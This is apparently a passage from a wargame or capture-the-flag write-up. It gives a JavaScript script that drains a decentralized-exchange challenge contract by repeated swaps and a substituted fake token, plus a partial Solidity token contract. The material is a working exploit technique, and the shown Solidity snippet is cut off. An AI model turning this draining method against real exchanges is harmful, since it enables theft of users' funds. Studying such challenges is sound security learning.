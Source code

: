 ```js
    await contract.approve(contract.address,10000,{from:PLAYER});
    while(flag){
        const balances= await getBalances();
        const tokenValues= await knowTokenValues(balances);
        const toSwap = await getSwapValues(tokenValues);
        await contract.swap(tokenValues.mostExpensiveToken,tokenValues.cheapestToken,toSwap,{from:PLAYER});
        console.log(`swapped ${toSwap} ${tokenValues.mostExpensiveToken} for  ${tokenValues.cheapestToken}`);
flag = balances.token1Balance*balances.token2Balance>0;
    }
    // Token2 balance  = 0. Make sure to set the token3 value to the same value as token1 at the end of this loop.

    flag = true;
     TOKEN2_ADDRESS=TOKEN1_ADDRESS;
     TOKEN1_ADDRESS=TOKEN3_ADDRESS;

while(flag){
        const balances= await getBalances();
        const tokenValues= await knowTokenValues(balances);
        const toSwap = await getSwapValues(tokenValues);
        await contract.swap(tokenValues.mostExpensiveToken,tokenValues.cheapestToken,toSwap,{from:PLAYER});
        console.log(`swapped ${toSwap} ${tokenValues.mostExpensiveToken} for  ${tokenValues.cheapestToken}`);

        flag = balances.token1Balance*balances.token2Balance>0;
    }
    
    console.log("Hacked !")
}


module.exports = async  function() {
  
  contract = await contractABI.at("0x5b9777555BDC7bA0Dee12EBB6d0Fc1E6Dc83b20a"); 
  await drainFunds();
}
```

#### Solidity Contract for test and for the token3

Make sure to add a reasonable balance to the instance.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/IERC20.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract SwappableToken is ERC20 {

  constructor( string memory name, string memory symbol, uint256 initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    super._approve(owner, spender, amount);
  }
```
